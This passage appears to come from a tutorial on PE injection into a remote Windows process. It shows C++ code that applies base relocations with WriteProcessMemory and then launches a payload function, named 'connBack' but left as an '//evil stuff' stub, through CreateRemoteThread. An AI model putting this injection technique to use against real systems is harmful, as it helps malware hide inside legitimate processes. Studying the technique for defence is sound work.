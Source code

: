 ```c++
for(short i = 0; i < relocTableEntries; i++){
    relocationEntries[i]
}
```

Inside the loop, we calculate the memory address where the offset we have to modify is located. This memory address will be the base address plus the address of the reloc table plus the offset of the entry. 

```c++
PDWORD_PTR pEntryValue = (PDWORD_PTR)((DWORD_PTR)sourceImageAddress + relocTable->VirtualAddress + relocationEntries[i].Offset);
```

With the address obtained, we check that the relocation type is 64 bits. As we have to write to a remote process, we use the [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function and modify the memory address of the offset with the original value plus the delta (it is important to add the delta also in the memory address we want to overwrite).

```c++
if(relocationEntries[i].Type == IMAGE_REL_BASED_DIR64){
    WriteProcessMemory(hRemote, pEntryValue + delta, (LPCVOID)(*pEntryValue + delta), sizeof(LPCVOID), 0);
}
```

All together would look like this:

```c++
while (relocTable->SizeOfBlock > 0){
    ...
    for(short i = 0; i < relocTableEntries; i++){
        if(relocationEntries[i].Offset != 0){
            PDWORD_PTR pEntryValue = (PDWORD_PTR)((DWORD_PTR)sourceImageAddress + relocTable->VirtualAddress + relocationEntries[i].Offset);
            if(relocationEntries[i].Type == IMAGE_REL_BASED_DIR64){
                WriteProcessMemory(hRemote, pEntryValue + delta, (LPCVOID)(*pEntryValue + delta), sizeof(LPCVOID), 0);
            }
        }
    }
    relocTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocTable + relocTable->SizeOfBlock);
}
```

Well, the hardest part is over. Now we go for the top of the cake.

We create a function that will contain the payload we want to execute. 

```c++
void connBack(){
    //evil stuff
}
```

In C and C++, we can obtain the address of a function by simply referencing its name, which is very convenient for the next step. Using the function [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread), we start a thread that points to the address of the function **connBack** of the PE injected in the remote process, for this, we sum the delta to the original address.
